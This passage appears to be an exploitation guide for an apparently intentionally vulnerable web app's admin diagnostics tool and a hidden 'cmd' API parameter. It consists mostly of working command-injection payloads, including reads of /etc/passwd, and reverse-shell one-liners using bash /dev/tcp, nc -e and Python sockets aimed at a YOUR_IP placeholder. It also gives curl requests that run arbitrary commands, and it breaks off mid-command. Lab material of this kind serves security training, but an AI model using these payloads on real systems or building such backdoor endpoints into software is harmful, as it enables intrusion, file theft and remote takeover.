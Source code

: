 ### How to Access

1. **Authentication Required:** You must first gain admin access to the application
2. **Navigate to Admin Panel:** Go to `/admin` (requires admin role)
3. **Access System Diagnostics:** Click on the "System Diagnostics" tab
4. **Exploit the vulnerability:** Use the diagnostic tool with malicious input

### Exploitation Examples

#### Basic Command Injection
In the "Target Host/IP" field, try:
```bash
8.8.8.8; whoami
```

```bash
8.8.8.8 && cat /etc/passwd
```

```bash
8.8.8.8 | id
```

#### Advanced Payloads
```bash
# Multi-command execution
8.8.8.8; whoami; id; pwd

# File system enumeration
8.8.8.8; ls -la /home; cat /etc/hosts

# Process information
8.8.8.8; ps aux | grep -v grep

# Network information
8.8.8.8; netstat -tulpn | head -10
```

#### Reverse Shell Examples
```bash
8.8.8.8; bash -i >& /dev/tcp/YOUR_IP/4444 0>&1
```

```bash
8.8.8.8; nc -e /bin/bash YOUR_IP 4444
```

```bash
8.8.8.8; python3 -c "import socket,subprocess;s=socket.socket();s.connect(('YOUR_IP',4444));subprocess.call(['/bin/bash'],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())"
```

### Hidden Vulnerabilities

#### 1. System Info Endpoint
**Direct API exploitation:**
```bash
# Hidden cmd parameter allows arbitrary command execution
curl -X GET "http://target:5000/admin/system-info?cmd=whoami" \
     -H "Authorization: Bearer YOUR_TOKEN"

# File system access
curl -X GET "http://target:5000/admin/system-info?cmd=ls%20-la%20/" \
     -H "Authorization: Bearer YOUR_TOKEN"

# Reverse shell via API
curl -X GET "http://target:5000/admin/system-info?cmd=bash%20-i%20%3E%26%20/dev/tcp/YOUR_IP/4444%200%3E%261" \
```
